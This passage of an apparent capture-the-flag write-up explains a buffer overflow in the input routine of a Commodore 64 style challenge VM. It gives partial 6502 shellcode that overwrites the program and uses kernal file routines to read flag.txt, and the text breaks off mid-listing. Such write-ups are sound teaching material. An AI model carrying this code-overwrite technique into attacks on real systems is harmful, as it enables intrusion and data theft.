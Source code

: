 The last part can be considered the 'main' function. it only prints a `header` and jumps to subroutine `main_menu`.

```bash
04b9 LDX 3
04bb JSR ffc9
04be LDX 48
04c0 LDY c2
04c2 JSR c320
04c5 JSR c370           ; jum to main_menu
04c8 RTS
```

With all this we know what the program is doing. Inspecting a bit closer we can find a vulnerability in `user_input`. The subroutine reads until either a `new line` or `carriage return` character was read. This will happily accept any number of characters and write the characters to memory, eventually overflowing the buffer. But how can we use this?

We can see that the `buffer` is located near the base address and before the code starts. This gives us the oportunity to override the program code and replace it with our own shellcode. 

Since we know the flag is located in a file we have to read the contents. Commodore 64 provided some [`kernal routines`](https://sta.c64.org/cbm64krnfunc.html) for file IO: `SETLFS`, `SETNAM`, `LOAD`. Thankfully the vm supports these routines, so we can write a small program that reads `flag.txt` and prints the content to screen. To assemble the code we can use for instance [`this online assembler`](https://www.masswerk.at/6502/assembler.html).

```bash

; kernal subroutines
SETLFS      = $FFBA
SETNAM      = $FFBD
LOAD        = $FFD5
CHROUT      = $FFD2

; store address to string for print subroutine
STRLO       = $FB
STRHI       = $FC

NAMELEN     = 9

* = $c036

            jmp     start

filename    .ASCII "flag.txt" 
            .BYTE 0
buffer      .REPEAT 42 .BYTE 0

* = $c099
start       lda     #NAMELEN
            ldx     #<filename
            ldy     #>filename
            jsr     SETNAM

            lda     #01
            ldx     $ba
            bne     skip
            ldx     #$08
skip        ldy     #00
            jsr     SETLFS

            ldx     #<buffer
            ldy     #>buffer
            lda     #00
            jsr     LOAD
```